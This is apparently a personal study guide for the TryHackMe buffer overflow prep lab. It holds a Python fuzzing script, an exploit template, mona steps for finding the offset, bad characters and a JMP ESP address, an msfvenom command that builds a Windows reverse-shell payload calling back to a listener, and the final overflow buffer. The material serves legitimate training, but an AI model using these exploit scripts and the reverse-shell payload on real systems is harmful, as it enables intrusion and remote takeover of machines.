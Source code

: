 # Buffer Overflow Guide 2

Working off the buffer overflow prep room: https://tryhackme.com/room/bufferoverflowprep

## Basic premise

Finding the offset of the EIP register when we overflow. We will overflow this with an instruction that will jump to the stack pointer (by finding other instances of JMP ESP in the code or referenced libraries, and then setting EIP to one of these addresses). At the stack pointer, past NOP padding, will be our payload code.

As part of this premise, we will work out which characters get malformed in the overwriting process, so called bad chars, and then ensure our payload and the address of the JMP ESP we try to find do not contain these characters.

## Fuzzing Script

python2

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Exploit script

Python 2 again. Fill this in as you go, normally using payload with patterns and/or bad data tests.

```python
import socket

ip = "10.10.198.104"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## General steps

Open target in immunity (with mona installed - see BUFFER-OVERFLOW-1.md for instructions), and set running.
For the first challenge, when run, to overflow you send OVERFLOW1 <string> after connecting.

1. Find the offset length. This can be done by fuzzing with longer and longer strings: the room does this with a script that connects and sends a increasing string, which gives the approx fail point (replicated above).

Once an idea is gained, generate the trace string: find pattern_create.rb from the metasploit framework (`find / -name pattern_create.rb 2>/dev/null`), and run it like so (using path from THM attackbox): `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 2400` (assuming a fail length of somewhere around 2400). Generally take approx (say last from fuzz script) and add 400.

When this fails, in immunity, run `!mona findmsp -distance 2400` matching the length there. This will return the offset in the log ("EIP contains normal pattern : blah (offset <here>)")

2. Work out bad characters. Run `!mona bytearray -b "\x00"` to generate a big character string. This will create a bin file and a txt file, the text file containing a set of char options. Send this payload (resetting the exe in immunity), prefixed by the offset. E.g. if the payload is named buf, and the offset is 534, then send `"A" * 534 + buf`. 

Take the value out of the ESP register when it crashes, and then add to a mona command like so: `!mona compare -f c:\moda\oscp\bytearray.bin -a 0186FA30`, with the path to generated bin and the provided address in there. This will run and either return 'unmodified' in red, or a set of 'possibly bad characters'.

Repeat step 2, adding those bad characters to \x00 above, and do so until unmodified is returned.

> Bad characters affect the following bytes too. E.g., if you had a line like `Possibly bad chars: 01 02 03 04 07 08 2e 2f a0 a1`, its possible the bad characters are \x00, \x07, \x2e and \xa0, e.g. each character at the start of a run of sequential 'bad characters'.

3. Find a jump esp command. This can be done in mona passing in the found bad characters, e.g. `!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"` Pick an address from the list.

Once you have an address, reverse and hexify it. For example, 625011AF becomes \xAF\x11\x50\x62

4. Generate some shell code with msfvenom, passing in bad chars and the bind port: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.206.220 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f py`

5. Finally, deliver the payload like so:

offset from step 1, retn being step 3, payload from step 5. The padding is just to allow the unpacking of the msfcommand.

```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"
padding = "\x90" * 16
payload = buf
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```
